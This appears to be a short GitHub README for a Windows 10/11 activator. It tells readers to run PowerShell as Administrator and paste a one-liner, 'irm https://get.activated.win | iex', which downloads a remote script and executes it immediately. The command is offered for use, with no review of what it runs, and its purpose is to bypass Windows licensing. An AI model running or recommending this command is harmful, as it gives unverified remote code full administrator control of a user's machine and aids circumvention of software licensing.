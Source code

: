 # Windows-10-11-Activator
You can also run this in Powershell(Make sure to run it as Administrator)
irm https://get.activated.win | iex
COPY THE ABOVE CODE AND PASTE IT IN YOU'RE POWERSHELL
This is not required to run the code itself, it acts as a substitute to the .cmd file
Enjoy!!
